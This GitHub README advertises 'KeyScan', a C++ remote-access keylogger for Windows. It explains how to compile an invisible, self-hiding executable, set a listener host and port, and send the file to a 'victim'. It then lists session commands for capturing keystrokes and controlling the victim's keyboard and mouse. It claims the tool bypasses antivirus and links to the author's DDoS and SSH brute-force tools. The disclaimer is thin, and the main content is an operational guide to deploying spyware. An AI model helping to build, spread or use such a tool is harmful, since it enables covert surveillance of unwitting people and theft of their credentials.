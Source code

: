 # KeyScan
KeyScan is a C++ open source explanation tool targeting windows operating system. it allows you to send keyboard events, mouse events and capture keystrokes (keylogger).!

Before you keep on reading please support my hard work by leaving a star and follow up if you want me to keep creating hacking tools like this.!!
# Disclaimer
It should be highly noted that this tool wasn't made with the intention to make or cause any damages or any illegal usage. By using KeyScan you accept that you'll be held responsible for improper usage and not the author.

# Features
* The program can bypass any antivirus including windows 10 and windows 11 defender ✅️.
* Control keyboard remotely ✅️.
* Control mouse remotely ✅️.
* Keylogging ✅️.
* Automatically hide the exe file on first run ✅️
* Invisible ✅️

# Features working on
* SSL/TLS ❌️
* Shell features ❌️

# How does it work.?!
In this repository, the folder [keyscan] (keyscan) contains the source codes that needs to be compiled before sending it to the victim. Just install the requirements and KeyScan will automatically compile it for you.!!
When the victim opens the malicious executable file, the window will be invisible to the victim and the program will also make itself hidden (meaning it will make the executable file hidden). At the other side the attacker will be waiting for the victim to open the file, after opened, then a session is opened.

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Screenshots
![test] (screenshots/keyscan.png)
![keyscan] (screenshots/keyscan3.PNG)
# Requirements
* GCC and MingWG on Linux and Termux
* MingWG on Windows

# Installation on Linux and Termux
```
git clone https://github.com/4anonz/KeyScan.git
cd KeyScan
g++ main.cpp -o keyscan
./keyscan
```
# Installation on Windows
```
g++ main.cpp -o keyscan.exe -lws2_32
.\keyscan.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git
cd mingw-w64
./configure --prefix=$PREFIX --without-crt
DESTDIR=$PREFIX make install
```
# How to use KeyScan?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs shall be send to the victim.
# KeyScan Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program

SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```
# Author
Anonymous Hacks(4anoz) - I'm White Hat😎️.
# Bugs Feedback & Suggestions
Please reports any bugs found, you can personally send me [email] (digitalguru64@gmail.com)
Or [facebook] (https://facebook.com/4anonz)

# Other repositories
DDoS script: https://github.com/4anonz/Flood
Network packet sniffer: https://github.com/4anonz/packt
SSH Auditing and brute force: https://github.com/4anonz/SSHCred
